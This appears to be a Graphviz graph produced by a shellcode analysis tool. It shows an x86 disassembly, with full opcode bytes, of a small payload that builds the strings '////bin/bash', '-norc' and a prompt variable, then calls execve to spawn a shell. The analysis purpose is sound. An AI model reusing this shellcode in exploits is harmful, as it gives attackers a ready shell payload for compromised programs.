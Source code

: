 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x99335f8" [shape=box, label = "0x00417000 31C0                            xor eax,eax\l0x00417002 50                              push eax\l0x00417003 6862617368                      push dword 0x68736162\l0x00417008 6862696E2F                      push dword 0x2f6e6962\l0x0041700d 682F2F2F2F                      push dword 0x2f2f2f2f\l0x00417012 89E3                            mov ebx,esp\l0x00417014 50                              push eax\l0x00417015 6863909090                      push dword 0x90909063\l0x0041701a 682D6E6F72                      push dword 0x726f6e2d\l0x0041701f 89442405                        mov [esp+0x5],eax\l0x00417023 50                              push eax\l0x00417024 68685D3A5A                      push dword 0x5a3a5d68\l0x00417029 685B626173                      push dword 0x7361625b\l0x0041702e 685053313D                      push dword 0x3d315350\l0x00417033 C644240B20                      mov byte [esp+0xb],0x20\l0x00417038 50                              push eax\l0x00417039 8D3424                          lea esi,[esp]\l0x0041703c 8D4E14                          lea ecx,[esi+0x14]\l0x0041703f 51                              push ecx\l0x00417040 53                              push ebx\l0x00417041 89E1                            mov ecx,esp\l0x00417043 50                              push eax\l0x00417044 8D5604                          lea edx,[esi+0x4]\l0x00417047 52                              push edx\l0x00417048 8D1424                          lea edx,[esp]\l0x0041704b B00B                            mov al,0xb\l"]
	 "0x9937868" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041704d execve\l"]
	 "0x99335f8" -> "0x9937868" [style = bold ]
}